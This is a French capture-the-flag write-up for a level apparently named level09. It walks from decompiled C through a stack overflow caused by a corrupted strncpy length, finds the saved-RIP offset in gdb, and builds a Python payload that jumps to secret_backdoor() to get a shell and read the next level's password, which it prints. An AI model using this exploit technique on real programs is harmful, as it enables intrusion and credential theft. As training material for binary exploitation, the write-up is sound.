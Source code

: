 Dans les sources:

char v1[140]
...
set_username((__int64)v1);
set_msg((__int64)v1);

int set_username(__int64 a1) {
  char s[140];
  int i;
...
  fgets(s, 128, stdin);
  for ( i = 0; i <= 40 && s[i]; ++i )
    *(_BYTE *)(a1 + i + 140) = s[i];
  return printf(">: Welcome, %s", (const char *)(a1 + 140));
}
# set_username ecrit 41 char de s (notre inputed username) dans &v1[140] (ca crash pas, aucune idee de pourquoi mais c'est pas le sujet)

char *set_msg(__int64 a1) {
  char s[1024];
...
  fgets(s, 1024, stdin);
  return strncpy((char *)a1, s, *(int *)(a1 + 180));
}
# set_msg ecrit avec strncpy() a1[180] ***(explications en bas) char de s (notre inputed msg) dans &a1[0], on fait overflow et on recupere l'adresse actuelle de EIP (ici plus EIP car on est en 64 bits, ca devient RIP et on recupere notamment le saved rip avec info frame, on aura notre offset de cette maniere)

# *** -> (converti en int donc si a1[180] == 0xFF alors strncpy ecrit 0xFF000000 en supposant que les 3 bytes suivant a1[180] soient des 0, mais peu importe ce qu'ils sont car notre but est juste d'ecrire beaucoup pour overflow)

# bash:
	> python -c "print 'A'*40 + '\xff\n' + 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A'" > /tmp/payload09

# gdb:
	> r < <(cat /tmp/payload09)
<<< Segfault...
	> info frame
<<< ...
<<< saved rip 0x4138674137674136
<<< ...

0x4138674137674136 = offset a 200

On a une belle fonction secret_backdoor() qui appelle system() avec notre input, on va rediriger RIP vers secret_backdoor()
	> p secret_backdoor
<<< ... 0x55555555488c <secret_backdoor> (on rajoute 0000 pour ecrire 64 bits)

On build notre payload:
	> python -c "print 'A'*40 + '\xff\n' + 'A'*200 + '\x00\x00\x55\x55\x55\x55\x48\x8c'[::-1]" > /tmp/payload09
	> cat /tmp/payload09 - | ./level09
	> /bin/sh
	> cat /home/users/end/.pass
<<< j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE